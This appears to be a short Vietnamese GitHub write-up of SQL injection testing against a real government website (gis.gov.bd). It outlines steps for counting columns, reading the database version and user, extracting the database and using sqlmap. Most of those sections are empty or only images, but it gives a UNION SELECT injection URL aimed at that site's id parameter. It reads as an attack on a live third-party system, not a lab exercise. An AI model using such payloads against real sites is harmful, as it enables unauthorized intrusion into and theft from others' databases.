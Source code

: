# TỔNG QUAN # 

Kiểm tra trên web "BGISP" `http://www.gis.gov.bd/en/gis_file.php?id=9`


## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột


## Kiểm tra database, version, user 

![image](https://github.com/user-attachments/assets/d160197b-a4a3-4077-8618-8ad9c1603151)


## Trích xuất cơ sở dữ liệu 

`http://www.gis.gov.bd/en/gis_file.php?id=-9+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100,101,102,103`

![image](https://github.com/user-attachments/assets/ea9e1175-6d63-4bce-996a-ff6c97022958)
